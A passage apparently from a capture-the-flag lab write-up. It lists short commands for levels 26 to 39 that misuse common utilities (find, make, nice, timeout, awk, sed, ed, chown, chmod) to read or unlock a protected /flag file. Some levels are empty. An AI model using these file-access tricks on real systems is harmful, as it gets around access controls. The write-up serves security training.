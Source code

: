 find /bin/ -name 'd\*' -exec cat /flag \\;

### level 26

```Makefile
all:
        gcc test.c -o test
        cat /flag
```

* make - runs the Makefile and execute the code inside

### level 27

* nice -n 5 cat /flag

### level 28

* timeout 5 cat /flag

### level 29

* stdbuf -oL cat /flag

### level 30

* setarch -R cat /flag

### level 31

### level 34

* awk {'print $0'} /flag

### level 35

* sed 's/""/""/' /flag

### level 36

* ed -v /flag
* ,p

### level 37

* chown 1000 /flag
* cat /flag

### level 38

* chmod 777 /flag
* cat /flag

### level 39
